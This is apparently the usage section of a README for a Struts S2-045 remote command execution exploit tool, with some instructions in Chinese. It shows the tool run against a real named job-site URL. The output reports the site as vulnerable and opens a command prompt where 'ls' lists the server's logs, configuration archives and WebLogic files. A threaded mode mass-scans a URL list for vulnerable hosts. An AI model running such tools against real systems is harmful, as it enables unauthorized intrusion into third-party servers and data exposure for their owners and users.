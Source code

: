 ### USage

python s2_045.py http://job.10086.cn/company/anouncement/showAnouncement.action

```bash
>python s2_045_cmd.py http://job.10086.cn/company/anouncement/showAnouncement.action
[Loopholes exist] http://job.10086.cn/company/anouncement/showAnouncement.action
```

python s2_045.py http://job.10086.cn/company/anouncement/showAnouncement.action

```bash
>python s2_045_cmd.py http://job.10086.cn/company/anouncement/showAnouncement.action
[Loopholes exist] http://job.10086.cn/company/anouncement/showAnouncement.action
[cmd]>>ls
autodeploy
bin
career2.log
career2.log.2017-02-01
career2.log.2017-02-02
career2.log.2017-02-03
career2.log.2017-02-04
career2.log.2017-02-05
career2.log.2017-02-06
career2.log.2017-02-07
career2.log.2017-02-08
career2.log.2017-02-09
career2.log.2017-02-10
career2.log.2017-02-11
career2.log.2017-02-12
career2.log.2017-02-13
career2.log.2017-02-14
career2.log.2017-02-15
career2.log.2017-02-16
career2.log.2017-02-17
career2.log.2017-02-18
career2.log.2017-02-19
career2.log.2017-02-20
career2.log.2017-02-21
career2.log.2017-02-22
career2.log.2017-02-23
career2.log.2017-02-24
career2.log.2017-02-25
career2.log.2017-02-26
career2.log.2017-02-27
career2.log.2017-02-28
career2.log.2017-03-01
career2.log.2017-03-02
career2.log.2017-03-03
career2.log.2017-03-04
career2.log.2017-03-05
career2.log.2017-03-06
config
config20150826.tar.gz
config20151204.tar.gz
console-ext
edit.lok
fileRealm.properties
init-info
lib
pending
security
servers
shutdown.py
startManagedWebLogic_readme.txt
startWebLogic.sh
tmp

```

python S2_045_thread.py（填写url.txt后运行）

```bash
填写url.txt文件，每行一个url地址，运行完以后会生成一个result.txt文件存放存在漏洞的url
```